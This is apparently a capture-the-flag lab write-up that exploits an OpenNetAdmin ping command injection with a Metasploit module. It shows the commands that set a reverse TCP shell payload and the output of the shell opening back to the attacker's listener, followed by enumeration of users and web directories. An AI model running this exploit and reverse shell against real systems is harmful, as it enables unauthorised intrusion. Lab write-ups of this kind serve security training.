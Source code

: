 ## RCE via OpenNetAdmin Ping Command Injection
This module exploits a command injection in `OpenNetAdmin` between `8.5.14` and `18.1.1`.

https://www.rapid7.com/db/modules/exploit/unix/webapp/opennetadmin_ping_cmd_injection/

https://www.exploit-db.com/exploits/47772

### Exploitation
```
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set rhosts 10.10.10.171
rhosts => 10.10.10.171
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set lhost tun0
lhost => ***
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
```

```
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.33:4444 
[*] Exploiting...
[*] Command shell session 1 opened (10.10.14.33:4444 -> 10.10.10.171:33442) at 2021-04-06 23:20:49 +0300
```

```
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Local User Enumeration
```
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
```

## Directory Enumeration
```
(remote) www-data@openadmin:/var/www$ ls -l
total 8
drwxr-xr-x 6 www-data www-data 4096 Nov 22  2019 html
drwxrwx--- 2 jimmy    internal 4096 Nov 23  2019 internal
lrwxrwxrwx 1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```

```
(remote) www-data@openadmin:/var/www/html$ ls -l
total 28
drwxrwxr-x 7 www-data www-data  4096 Nov 22  2019 artwork
-rw-r--r-- 1 www-data www-data 10918 Nov 21  2019 index.html
drwxrwxr-x 8 www-data www-data  4096 Nov 22  2019 marga
drwxrwxr-x 8 www-data www-data  4096 Nov 22  2019 music
lrwxrwxrwx 1 www-data www-data    12 Nov 21  2019 ona -> /opt/ona/www
drwxrwxr-x 8 www-data www-data  4096 Nov 22  2019 sierra
```
